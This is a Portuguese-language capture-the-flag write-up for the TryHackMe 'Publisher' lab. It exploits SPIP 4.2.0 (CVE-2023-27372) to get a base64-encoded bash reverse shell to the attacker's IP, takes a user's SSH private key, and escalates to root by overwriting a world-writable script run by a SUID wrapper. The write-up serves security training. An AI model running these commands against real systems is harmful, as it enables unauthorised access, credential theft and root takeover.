

<div align="center">

# 🚀 TryHackMe – Publisher (Writeup)

*"Teste suas habilidades de enumeração… e não confie em wrappers SUID."* 🕶️🐧

<p align="center">
  
</p>

</div>

---

<div align="center">

## 📌 Informações da Máquina

* **Sala:** Publisher
* **Link:** [https://tryhackme.com/room/publisher](https://tryhackme.com/room/publisher)
* **Categoria:** Linux | Web
* **Dificuldade:** 🟢 Easy
* **Tempo Estimado:** ⏱️ 60 min
* **Status:** ✅ Rooted com sucesso

</div>

---

<div align="center">

## 🗺️ Roadmap da Exploração

</div>



---

## 🔍 Enumeração Inicial

Definindo variáveis úteis e testando conectividade:

```bash
ALVO="10.201.94.86"; LOCAL="10.201.88.218"

ping -c 3 $ALVO | grep -o "ttl=[0-9]*"
# ttl=64 (host up)
```

**Port scan completo** (todos os ports com detecção de serviços):

```bash
nmap -sC -sV -p- -T4 --min-rate=9326 -vv $ALVO
```

**Achados principais:**

* **22/tcp** → OpenSSH 8.2p1 (Ubuntu)
* **80/tcp** → Apache 2.4.41 (Ubuntu) – título: *Publisher's Pulse: SPIP Insights & Tips*

Bruteforce de caminhos no HTTP:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$ALVO
# /images  (301)
# /spip    (301)
```

A pasta **/spip** revela o CMS e (via fonte/HTML) a **versão do SPIP: 4.2.0**.

---

## 💥 Exploração Web – SPIP 4.2.0 (CVE-2023-27372)

O *searchsploit* aponta PoC verificado:

```bash
searchsploit SPIP 4.2.0
searchsploit -m 51536   # Copia para /root/51536.py
ls -lh /root/51536.py
```

Essa exploração dá **RCE sem autenticação**. Para facilitar uma reverse shell, geramos um payload em base64:

```bash
echo -n "bash -i >& /dev/tcp/$LOCAL/1234 0>&1" | base64 -w0
# YmFz...MQ==
```

**Exploit:**

```bash
python3 51536.py -u http://$ALVO/spip -c "echo YmFz...MQ== | base64 -d | bash"
```

**Listener:**

```bash
nc -lvnp 1234
# Connection received ...
# www-data@41c976e507f8:/home/think/spip/spip$
```

> ⚠️ Dica: Se não aparecer STDOUT com `-c "id"`, use escrita em arquivo (ex.: `> IMG/poc.txt`) ou uma reverse shell como acima.

---

## 🧭 Pós-Exploração (como www-data)

Navegando para o home do user:

```bash
cd /home/think
ls
# spip  user.txt
cat user.txt
# *****
```

**Loot valioso em `.ssh`:**

```bash
ls -la /home/think/.ssh
# id_rsa, id_rsa.pub, authorized_keys
```

Copie o conteúdo do `id_rsa`, salve na sua máquina atacante como `id_rsa`, e ajuste permissões:

```bash
chmod 600 id_rsa
ssh -i id_rsa think@10.201.94.86
whoami
# think
```

Agora estamos como **think** via SSH.

---

## 🧩 Enumeração de Privesc

A própria sala dá a dica:

> **Hint:** *Look to the App Armor by it's profile.*

Checando AppArmor e SUIDs:

```bash
aa-status
# apparmor module is loaded (sem permissão de listar perfis)

find / -perm -4000 2>/dev/null
# ...
# /usr/sbin/run_container   <-- SUSPEITO
# ...
```

Entrando nos perfis:

```bash
ls -la /etc/apparmor.d
# vários perfis padrão; nada explícito de run_container
```

> 💡 O truque está no **wrapper SUID** `/usr/sbin/run_container` que chama um **script no /opt**. Vamos olhar.

---

## 🐳 O Wrapper SUID do Docker

Explorando `/opt`:

```bash
cd /opt
ls -la
# drwx--x--x containerd
# -rw-r--r-- dockerfile
# -rwxrwxrwx run_container.sh    <--- 777 (WORLD-WRITABLE)
```

**Bingo:** o wrapper SUID `/usr/sbin/run_container` executa o **`/opt/run_container.sh`**. O script é **escrevível por todos** — logo, qualquer código que colocarmos nele será **executado como root** quando chamarmos o wrapper.

---

## 🔓 Escalada de Privilégio

### Variante 1 — Gerar um bash SUID “rootsh”

Backup + overwrite do script:

```bash
cp /opt/run_container.sh /opt/run_container.sh.bak

cat > /opt/run_container.sh <<'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootsh
chmod u+s /tmp/rootsh
exit 0
EOF

chmod +x /opt/run_container.sh
```

Disparar o wrapper SUID:

```bash
/usr/sbin/run_container
```

Agora, usar a shell SUID:

```bash
/tmp/rootsh -p
id
# uid=0(root) gid=0(root) euid=0(root) ...
```

### Variante 2 — Abrir root shell direto

```bash
cp /opt/run_container.sh /opt/run_container.sh.bak

cat > /opt/run_container.sh <<'EOF'
#!/bin/bash
exec /bin/bash -p
EOF

chmod +x /opt/run_container.sh
/usr/sbin/run_container
# root shell imediata
```

> ℹ️ Por que o `bash -p`? Ele preserva privilégios efetivos quando invocado por um binário SUID (no caso, chamado indiretamente pelo wrapper).

---

## 👑 Root Flag

Com root obtido:

```bash
cd /root
ls
# root.txt  spip

cat /root/root.txt
# *****
```

---

## 🧩 Fluxo Final (Resumo)

1. Enumeração → `/spip` revela **SPIP 4.2.0**.
2. Exploit **CVE-2023-27372** → **RCE pre-auth** → **www-data** (reverse shell).
3. Loot de chave SSH → **think\@host**.
4. Dica AppArmor + SUID scan → **/usr/sbin/run\_container**.
5. **/opt/run\_container.sh** com **777** → overwrite → **SUID bash**.
6. Root shell + **root.txt**.

---

<div align="center">

### 🎉 Conclusão

Uma box excelente para consolidar:

* Enumeração Web → **/spip** e fingerprint do CMS
* Exploração de **SPIP 4.2.0** (CVE-2023-27372)
* Pós-exploração e **credential harvesting**
* **AppArmor hint** guiando à **escalada via wrapper SUID + script 777**
* Princípios de **SUID** e **Docker wrappers** mal projetados

**Flags:**

* `user.txt` (via www-data): `*****`
* `root.txt`: `*****`

---

<div align="center">


</div>
